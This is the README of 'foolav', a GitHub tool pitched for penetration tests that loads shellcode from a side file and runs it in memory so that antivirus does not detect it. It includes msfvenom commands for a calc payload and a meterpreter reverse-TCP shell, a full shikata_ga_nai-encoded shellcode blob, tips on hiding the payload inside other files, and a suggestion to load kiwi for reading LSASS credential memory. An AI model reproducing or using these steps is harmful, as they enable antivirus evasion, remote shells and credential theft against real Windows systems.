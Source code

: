 # foolav

Executable compiled with this code is useful during penetration tests where there is a need to execute some payload (meterpreter maybe?) while being certain that it will not be detected by antivirus software. The only requirement is to be able to upload two files: `binary executable` and `payload file` into the same directory.

## Usage steps

1. prepare your payload (x86), i.e.
   
   calc: ```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x0a\x0d\xff" -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" >foolav.mf```
   
   meterpreter: ```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=... -a x86 -f c 2>/dev/null | egrep "^\"" | tr -d "\"\n;" >foolav.mf```
2. copy payload file `[executable-name-without-exe-extension].mf` in the same directory as executable
   payload running calc.exe generated using above command:
   ```
   # calc.exe
   \xbb\x28\x30\x85\x5b\xd9\xf7\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x33\x83\xea\xfc\x31\x5a\x0e\x03\x72\x3e\x67\xae\x7e\xd6\xee\x51\x7e\x27\x91\xd8\x9b\x16\x83\xbf\xe8\x0b\x13\xcb\xbc\xa7\xd8\x99\x54\x33\xac\x35\x5b\xf4\x1b\x60\x52\x05\xaa\xac\x38\xc5\xac\x50\x42\x1a\x0f\x68\x8d\x6f\x4e\xad\xf3\x80\x02\x66\x78\x32\xb3\x03\x3c\x8f\xb2\xc3\x4b\xaf\xcc\x66\x8b\x44\x67\x68\xdb\xf5\xfc\x22\xc3\x7e\x5a\x93\xf2\x53\xb8\xef\xbd\xd8\x0b\x9b\x3c\x09\x42\x64\x0f\x75\x09\x5b\xa0\x78\x53\x9b\x06\x63\x26\xd7\x75\x1e\x31\x2c\x04\xc4\xb4\xb1\xae\x8f\x6f\x12\x4f\x43\xe9\xd1\x43\x28\x7d\xbd\x47\xaf\x52\xb5\x73\x24\x55\x1a\xf2\x7e\x72\xbe\x5f\x24\x1b\xe7\x05\x8b\x24\xf7\xe1\x74\x81\x73\x03\x60\xb3\xd9\x49\x77\x31\x64\x34\x77\x49\x67\x16\x10\x78\xec\xf9\x67\x85\x27\xbe\x88\x67\xe2\xca\x20\x3e\x67\x77\x2d\xc1\x5d\xbb\x48\x42\x54\x43\xaf\x5a\x1d\x46\xeb\xdc\xcd\x3a\x64\x89\xf1\xe9\x85\x98\x91\x6c\x16\x40\x78\x0b\x9e\xe3\x84
   ```
3. once executable is run, payload file will be parsed, loaded into separate thread and executed in memory:
   
   ![screen](https://cloud.githubusercontent.com/assets/4956006/12366078/2c13213c-bbd9-11e5-8fc9-a7a62194158e.png)

## Hints

- x86 binary will run on both x86 and x86_64 Windows systems. Still, you need to use x86 architecture payloads. Nevertheless, x86 meterpreter payload can be migrated to x86_64 processes. After that, `load kiwi` will load x86_64 version making it possible to access juicy contents of LSASS process memory :)

  ![meter](https://cloud.githubusercontent.com/assets/4956006/12372509/aa21a00e-bc5a-11e5-8589-98ee8ce8bfc0.png)

- parser of .mf payload file will ignore every character other than `\xHH` hexdecimal sequences. This means, it can append your payload t almost any file, hide it between the lines or even add your own comments, example:

![obfuscation](https://cloud.githubusercontent.com/assets/4956006/12372526/ca361694-bc5b-11e5-9a31-be6847cdcec2.png)

## Download

https://github.com/hvqzao/foolav/releases/download/v1.0/foolav.zip

## License

[MIT License](https://github.com/twbs/bootstrap/blob/master/LICENSE)
